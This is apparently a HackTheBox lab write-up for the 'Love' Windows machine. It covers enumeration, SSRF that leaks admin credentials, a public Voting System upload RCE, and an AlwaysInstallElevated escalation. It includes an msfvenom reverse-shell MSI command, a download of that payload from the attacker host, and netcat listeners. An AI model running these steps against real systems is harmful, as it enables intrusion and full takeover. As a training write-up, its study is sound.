# Love - Easy

Target IP: **10.129.48.103**

## User Flag

Initial scan: ```sudo nmap -sC -sV -p- 10.129.48.103 -v```

Output shows a lot of ports open.

```
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Voting System using PHP
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Issuer: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-01-18T14:00:16
| Not valid after:  2022-01-18T14:00:16
| MD5:   bff0:1add:5048:afc8:b3cf:7140:6e68:5ff6
|_SHA-1: 83ed:29c4:70f6:4036:a6f4:2d4d:4cf6:18a2:e9e4:96c2
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB 10.3.24 or later (unauthorized)
5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
5040/tcp  open  unknown
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
| tls-alpn: 
|_  http/1.1
|_ssl-date: 2026-10-14T13:27:07+00:00; +21m33s from scanner time.
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Issuer: commonName=LOVE
| Public Key type: rsa
| Public Key bits: 4096
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-04-11T14:39:19
| Not valid after:  2024-04-10T14:39:19
| MD5:   d35a:2ba6:8ef4:7568:f99d:d6f4:aaa2:03b5
|_SHA-1: 84ef:d922:a70a:6d9d:82b8:5bb3:d04f:066b:12f8:6e73
7680/tcp  open  pando-pub?
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2026-10-14T06:26:53-07:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2026-10-14T13:26:52
|_  start_date: N/A
|_clock-skew: mean: 2h06m33s, deviation: 3h30m00s, median: 21m32s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```

Let's first navigate to port 80. We are greeted with the page. It takes in a Voter ID and a password to give a session.


A PHPSESSID value is set for us, so I believe a possible vector is to get access to other session IDs then using them to bypass authentication.



Directory enumeration gets us some hits.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ldmjeik8e9]─[~]
└──╼ [★]$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.129.48.103/FUZZ -ic -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.48.103/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

images                  [Status: 301, Size: 340, Words: 22, Lines: 10, Duration: 9ms]
                        [Status: 200, Size: 4388, Words: 654, Lines: 126, Duration: 13ms]
Images                  [Status: 301, Size: 340, Words: 22, Lines: 10, Duration: 6ms]
admin                   [Status: 301, Size: 339, Words: 22, Lines: 10, Duration: 6ms]
plugins                 [Status: 301, Size: 341, Words: 22, Lines: 10, Duration: 8ms]
includes                [Status: 301, Size: 342, Words: 22, Lines: 10, Duration: 6ms]
dist                    [Status: 301, Size: 338, Words: 22, Lines: 10, Duration: 9ms]
licenses                [Status: 403, Size: 422, Words: 37, Lines: 12, Duration: 15ms]
IMAGES                  [Status: 301, Size: 340, Words: 22, Lines: 10, Duration: 6ms]
Admin                   [Status: 301, Size: 339, Words: 22, Lines: 10, Duration: 7ms]
Plugins                 [Status: 301, Size: 341, Words: 22, Lines: 10, Duration: 6ms]
Includes                [Status: 301, Size: 342, Words: 22, Lines: 10, Duration: 8ms]
                        [Status: 200, Size: 4388, Words: 654, Lines: 126, Duration: 8ms]
Dist                    [Status: 301, Size: 338, Words: 22, Lines: 10, Duration: 7ms]
:: Progress: [87651/87651] :: Job [1/1] :: 666 req/sec :: Duration: [0:00:38] :: Errors: 0 ::
```

At ```/admin```, there is another log in page. This takes in a username instead of an ID.



The rest of the directories all have directory listing enabled, but there isn't anything that stands out as particularly useful at the moment.



We get a single hit from enumerating directories on ```/admin```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ldmjeik8e9]─[~]
└──╼ [★]$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.129.48.103/admin/FUZZ -ic -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.48.103/admin/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 6198, Words: 767, Lines: 170, Duration: 14ms]
includes                [Status: 301, Size: 348, Words: 22, Lines: 10, Duration: 6ms]
Includes                [Status: 301, Size: 348, Words: 22, Lines: 10, Duration: 6ms]
                        [Status: 200, Size: 6198, Words: 767, Lines: 170, Duration: 137ms]
:: Progress: [87651/87651] :: Job [1/1] :: 4347 req/sec :: Duration: [0:01:02] :: Errors: 5 ::
```

Here, we see the php scripts that are being used.



There is a script that seems to let us add a new voter, including an image. My thought is that perhaps we can bypass the filtering mechanism behind this image upload and upload a php script, which then we can access through one of the directories that we previously found.



Let's look elsewhere first.

Port 445 doesn't support null sessions.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ldmjeik8e9]─[~]
└──╼ [★]$ smbclient --no-pass -L //10.129.48.103
session setup failed: NT_STATUS_ACCESS_DENIED
```

We can't authenticate to mysql either.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ldmjeik8e9]─[~]
└──╼ [★]$ mysql -h 10.129.48.103
ERROR 2002 (HY000): Received error packet before completion of TLS handshake. The authenticity of the following error cannot be verified: 1130 - Host '10.10.15.194' is not allowed to connect to this MariaDB server
```

Navigating to the web server at port 5000 tells us that we are forbidden.



Directory enumeration doesn't get us anything either.

Port 5040 seems to be for CDPSvc, which isn't directly relevant.

We can't get anything out of the HTTPAPI ports.

Port 7680 seems interesting but we can't navigate to it.

Looking at the scan results again, the TLS certificate for port 443 seems to tells us about a new subdomain, ```staging.love.htb```. Let's add both that and ```love.htb``` and investigate.

This leads us to ```/beta.php```, where the website seems to take in a url and scans it on the back-end.



We can check for SSRF. Let's host a web server on our attack box and see if we can get connections.

Indeed, we have SSRF.



We can potentially use this to get more information about the http ports on the server. Specifically, I'm interested in port 5000, as we were forbidden from viewing the resource.

Querying localhost port 5000, we get a set of credentials returned to us.



Let's now use this to log in to the admin page.



I wasn't sure if Voting System was an actual software or something created solely for HTB, but we can check for publicly disclosed vulnerabilities anyways.

Searchsploit actually gives us results. The authenticated RCE seems to our interest.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ldmjeik8e9]─[~]
└──╼ [★]$ searchsploit voting system
------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                              |  Path
------------------------------------------------------------------------------------------------------------ ---------------------------------
Online Voting System - Authentication Bypass                                                                | php/webapps/43967.py
Online Voting System 1.0 - Authentication Bypass (SQLi)                                                     | php/webapps/50075.txt
Online Voting System 1.0 - Remote Code Execution (Authenticated)                                            | php/webapps/50076.txt
Online Voting System 1.0 - SQLi (Authentication Bypass) + Remote Code Execution (RCE)                       | php/webapps/50088.py
Online Voting System Project in PHP - 'username' Persistent Cross-Site Scripting                            | multiple/webapps/49159.txt
Voting System 1.0 - Authentication Bypass (SQLI)                                                            | php/webapps/49843.txt
Voting System 1.0 - File Upload RCE (Authenticated Remote Code Execution)                                   | php/webapps/49445.py
Voting System 1.0 - Remote Code Execution (Unauthenticated)                                                 | php/webapps/49846.txt
Voting System 1.0 - Time based SQLI  (Unauthenticated SQL injection)                                        | php/webapps/49817.txt
WordPress Plugin Poll_ Survey_ Questionnaire and Voting system 1.5.2 - 'date_answers' Blind SQL Injection   | php/webapps/50052.txt
------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

In the PoC, we can change the url paths and set our credentials.



After running the script, we get a shell.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ldmjeik8e9]─[~]
└──╼ [★]$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.48.103 63108
b374k shell : connected

Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\omrs\images>whoami
whoami
love\phoebe
```

We can proceed to get the user flag from here.

## Root Flag

Running winpeas tells us that AlwaysInstallElevated is set to 1.



We can generate a malicious msi package and execute it to get a SYSTEM shell.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ldmjeik8e9]─[~]
└──╼ [★]$ msfvenom -p windows/shell_reverse_tcp lhost=10.10.15.194 lport=4444 -f msi > shell.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of msi file: 159744 bytes
```

Let's transfer our payload over to the remote machine.

```
PS C:\Users\Public\Downloads> Invoke-WebRequest -Uri "http://10.10.15.194:8000/shell.msi" -OutFile "C:\users\public\downloads\shell.msi"
PS C:\Users\Public\Downloads> dir
dir


    Directory: C:\Users\Public\Downloads


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----        10/14/2026   7:25 AM         159744 shell.msi                                                            
-a----        10/14/2026   7:13 AM       10171904 winpeas.exe
```

Now we can start up a listener on our attack host, then execute the payload.

After doing so, we get a SYSTEM shell.

```
C:\Users\Public\Downloads>msiexec /quiet /qn /i shell.msi
```

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ldmjeik8e9]─[~]
└──╼ [★]$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.48.103 63120
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system
```

We can proceed to get the root flag from here.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
